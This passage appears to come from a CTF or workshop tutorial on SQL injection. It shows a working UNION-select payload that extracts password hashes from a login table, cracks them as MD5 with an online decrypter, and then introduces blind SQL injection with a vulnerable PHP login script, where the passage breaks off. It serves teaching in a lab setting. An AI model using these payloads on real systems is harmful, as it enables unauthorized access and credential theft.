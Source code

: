 ```

```
A password recovery email has been sent to e9ef7606634776f071dda30ae9c2c00c
```

and ```1' and 1=0 union select password from ctf101_login where username = 'd4ni3l' #```

```
A password recovery email has been sent to e3274be5c857fb42ab72d786e281b4b8
```

Password seem to be hashed. What hash could it be? 32 digit hexadecimal, it could be the popular MD5 hash.
Let try using http://www.hashkiller.co.uk/md5-decrypter.aspx to crack.

```
n3lson - adminP@ssw0rd
d4ni3l - adminpassword
```

Login in with either one of the username and password to get the flag 


### Practical 2: Blind SQL Injection
We now know what SQL Injection is, Blind SQL Injection is similar to a normal SQL Injection, the only difference is the way data is retrieved from the database.
When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions. This makes
exploitation more difficult, but not impossible.

Consider this pseudocode:
```php
$query = $_GET['query'];
if (db_query($query)) {
	echo "Successful";
} else {
	echo "Fail";
}
```

When the query returns false, a "Fail" is displayed, and when the query returns true, "Successful" is displayed.
Therefore, it is harder to obtain data from the database, as the result is not output to the web page.

Now we know the idea of Blind SQL Injection, lets look at the problem on the scoreboard, and obtain the URL for this problem.

In this problem, the source code for login.php and register.php is provided.

Take a look at ```login.php```:
```php
<?php
include "config.php";
$con = mysqli_connect($MYSQL_HOST, $MYSQL_USERNAME, $MYSQL_PASSWORD, $MYSQL_DB);
$username = mysqli_real_escape_string($con, $_POST["username"]);
$password = mysqli_real_escape_string($con, $_POST["password"]);
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) === 1) {
		$row = mysqli_fetch_array($result);
		echo "<h1>Logged in!</h1>";
		echo "<p>Your flag is: $FLAG</p>";
} else {
		echo "<h1>Login failed.</h1>";
```